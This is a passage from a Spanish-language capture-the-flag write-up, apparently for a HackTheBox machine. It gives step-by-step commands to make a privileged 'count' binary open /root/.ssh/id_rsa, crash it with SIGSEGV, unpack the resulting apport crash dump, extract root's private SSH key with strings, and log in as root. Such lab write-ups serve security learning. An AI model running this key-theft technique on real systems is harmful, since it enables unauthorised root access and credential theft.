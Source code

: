 Voy a mirar pero no aparece nada. Voy a intentar abrir el archivo id_rsa con count 


Pues bien cuando hago control+z para pausar y hago un ps para ver los procesos veo un monton ... es por los intentos realizados por mi, por lo que voy a empezar a matar procesos, para y de forma recursiva tenemos

1. abrir el count para que seamos digamos root
2. ponemos la path del archivo, ahora mismo da igual
3. control+z
4. ps para ver los procesos y luego kill -SIGSEGV numero_proceso_count
5. luego le damos a fg y volvemos y vemos que el proceso se mata.

Esto lo haremos hasta que en ps no quede ninguno

Una vez que no tenemos ninguno ya si podemos hacer lo que queremos

1. abrir count
2. poner /root/.ssh/id_rsa
3. control+z
4. vemos los procesos y matamos el de count con kill -SIGSEGV numero
5. fg
6. Nos ha aparecido como que falla el proceso , perfecto
7. Ahora vamos a /var/crash y le hacemos ls -l
8. Vemos que tenemos lo que es en realidad un comprimible con muchos datos llamados _opt_count.1000.crash

9. Lo descomprimimos y enviamos a una carpeta temporal /tmp/0xdf
```bash
apport-unpack _opt_count.1000.crash /tmp/0xdf
```
10. Revisamos los archivos , en este caso CoreDump parece que es el bueno puesto que aparece un base64 un montón de código, así que lo vamos a ver como strings

```bash
strings -n 30 /tmp/0xdf/CoreDump
```
Dentro ya vemos una clave privada que creo que además es la misma que antes.. pero bueno me la copio .

ya en mi pc creo id_rsa y pego la clave

le doy permiso 600 sino no funciona

```bash
chmod 600 id_rsa
```
Nos conectamos por ssh

```bash
ssh root@10.10.11.120 -i id_rsa
```
